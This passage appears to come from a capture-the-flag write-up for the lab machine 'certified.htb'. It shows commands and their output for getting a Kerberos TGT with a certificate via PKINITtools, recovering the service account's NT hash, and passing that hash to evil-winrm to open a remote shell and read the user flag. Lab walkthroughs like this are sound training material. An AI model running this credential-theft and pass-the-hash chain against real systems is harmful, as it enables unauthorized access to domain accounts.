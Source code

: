 [link for PKINITtools](https://github.com/dirkjanm/PKINITtools.git)

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pfx ../7tVgShqZ.pfx -pfx-pass "NU0ILJNabrxJ9IL5TMOs" certified.htb/management_svc TGT_krb5cc
2025-02-14 11:43:34,644 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-02-14 11:43:34,660 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-02-14 11:43:50,018 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-02-14 11:43:50,018 minikerberos INFO     200e9d29db6d2bb4be8e255e15e90da19ce2d5fb5708023c2f0a12d1364e4f9c
INFO:minikerberos:200e9d29db6d2bb4be8e255e15e90da19ce2d5fb5708023c2f0a12d1364e4f9c
2025-02-14 11:43:50,023 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

```jsx
──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ export KRB5CCNAME=$(pwd)/TGT_krb5cc
```
Now, extract the **NT hash** of **management_svc** from the **TGT**.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ python3 getnthash.py certified.htb/management_svc -key 200e9d29db6d2bb4be8e255e15e90da19ce2d5fb5708023c2f0a12d1364e4f9c

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

Login with the **NT hash** to establish a **PowerShell session**.


```jsx
──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> ls
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\management_svc> cd Desktop
*Evil-WinRM* PS C:\Users\management_svc\Desktop> cat user.txt
*************52e10e797c0b573d0c6a
*Evil-WinRM* PS C:\Users\management_svc\Desktop> 

```         